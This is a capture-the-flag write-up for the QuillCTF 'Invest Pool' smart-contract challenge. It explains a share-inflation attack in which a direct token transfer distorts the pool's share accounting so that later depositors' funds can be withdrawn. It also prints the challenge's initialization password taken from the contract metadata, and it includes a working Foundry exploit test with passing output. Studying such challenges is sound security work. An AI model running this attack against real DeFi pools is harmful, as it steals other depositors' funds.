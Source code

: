 # QuillCTF : Invest Pool

## Object of CTF
There is a Invest Pool where a certain token is provided by users. Our goal as a hacker is to withdraw an amount of tokens higher than what we have spent on the Investment pool.

## Vulnerability Of InvestPool Smart Contract
Vulnerability of InvestPool Smart Contract is mathematical in nature rather than programatic one. In short to understand the problem we need to understand that there two main functions which are involved in deposit and withdraw of tokens in this Smart Contract and those are tokensToShare() and shareToTokens(). Diposit function uses tokensToShare() method to calculate, what is going to be the balance of user after depositing a amount of tokens to pool. Following equation shows the what this function is actully doing:

    if (poolTokenBalance > 0): user_share = amountDeposited * totalShare/poolTokenBalance
    else: userShare = amountDeposited
    
now totalShares is always increased by userShare thus it's always equal to pool Token Balance. And the balance of user is always remain equal to the amount he deposited thus **userShare** is always equal to **balance of user**.

In same way while withdrawing the tokens, it uses sharesToTokens() function which can be seen as follows:

    withdrawAmount = userBalance * poolTokenBalance/totalShares
    
Again if things remain normal, pool token balance will be equal to total shares and withdraw amount will be equal to user balance.
But here is the catch, what if a user/hacker does not use deposit() method of Smart Contract to place tokens into Smart Contract. In that case the harmony of **poolTokenBalance** and **totalShares** will be distorted as deposit() method updates totalShares along with poolTokenBalance. That's what hacker is going to use. See following steps: 

(1) Imagine hacker has **X** tokens and first he places **1 Token** using normal deposit() method. Hacker balance in Pool will be 1, totalShares will be 1 and poolTokenBalance will also be 1. Everything is normal up untill this point.

(2) Now hacker will transfer rest of the **X-1** tokens to the InvestPool smart contract using transfer() method of ERC20 tokens. At this point Pool token balance is **X** and totalShares is still just 1, since we didnt use Pool's deposit() method which updates the totalShares.

(3) Now imagine some user provides **Y** tokens to the Pool, his userShare according to Equation one will be:

    userShare = X * 1 / Y = X/Y
    (where X = userDeposited Amount, Y = Pool Token Balance, and totalShares was 1
    in last step)
    (if X < Y) userShare = 0
    after this 
    Pool Token balance = X+Y  
    totalShare = userShare + previousValue = 0 + 1 = 1.
    
As you can see userShare is going to be 0 if it's less than what hacker has provided. Thus there will be no increase in totalShares but Pool token balance is increased by Y tokens. Now if hacker withdraws his tokens. Let's see what happens according to Equation 2:

    withdrawAmount = 1 * (X+Y)/1 = X+Y
    (where userBalance in Pool is 1 and totalShare is also 1, 
    and pool token balance is (X+y) )

Thus hacker is able to withdraw X+Y tokens by just spending X tokens.

###**password for initilization**
One part of the problem was to get the password to initialize the Invest Pool Smart Contract. One can see password in Metadata url of smart contract. To see it just use tools like https://playground.sourcify.dev/ and select the Goerli network and paste Smart Contract address provided in code i.e, 0xA45aC53E355161f33fB00d3c9485C77be3c808ae . This will show you the IPFS url of Metadata, just click that url and password will show-up. Its j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx

## Proof Of Concept
### Foundry Test


    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.7;
    
    import "forge-std/Test.sol";
    import "../src/poolToken.sol";
    import "../src/investPool.sol";
    
    contract Hack is Test {
        PoolToken token;
        InvestPool pool;
        address user = vm.addr(1);
        address hacker = vm.addr(2);
    
        function setUp() external {
            token = new PoolToken();
            pool = new InvestPool(address(token));
    
            token.mint(2000e18);
            token.transfer(user, 1000e18);
            token.transfer(hacker, 1000e18);
    
            vm.prank(user);
            token.approve(address(pool), type(uint).max);
    
            vm.prank(hacker);
            token.approve(address(pool), type(uint).max);
        }
    
        function userDeposit(uint amount) public {
            vm.prank(user);
            pool.deposit(amount);
            vm.stopPrank();
        }
    
        function test_hack() public {
            uint hackerBalanceBeforeHack = token.balanceOf(hacker);
    				vm.startPrank(hacker);
    
            // solution
    
            // let's first initialize the Invest Pool with the 
            // password we found in metadata ipfs url
            // i.e, j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx
    
            pool.initialize("j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx");
    
            // now as a hacker just deposit 1 token fairly using deposit()
            // function of Invest Pool
            pool.deposit(1);
    
            // now our balance in pool is 1 let's now transfer rest of the 
            // tokens to Invest Pool using ERC-20's transfer method on token
            token.transfer(address(pool), token.balanceOf(hacker));
    
            // now let's say in future some innocent user deposits
            // a million token to this pool
            vm.stopPrank();
            vm.startPrank(user);
            pool.deposit(1000000);
            vm.stopPrank();
    
            // we are now in position of withdrawing all these million tokens
            // along with our own tokens as explained in write up
            vm.startPrank(hacker);
            pool.withdrawAll();
    
    
    				vm.stopPrank();
            assertGt(token.balanceOf(hacker), hackerBalanceBeforeHack);
        }
    }

	

### Foundry test output
	$ forge test --match-path test/AttackInvestPool.t.sol 
    [⠒] Compiling...
    No files changed, compilation skipped
    
    Running 1 test for test/AttackInvestPool.t.sol:Hack
    [PASS] test_hack() (gas: 119272)
    Test result: ok. 1 passed; 0 failed; finished in 1.34ms
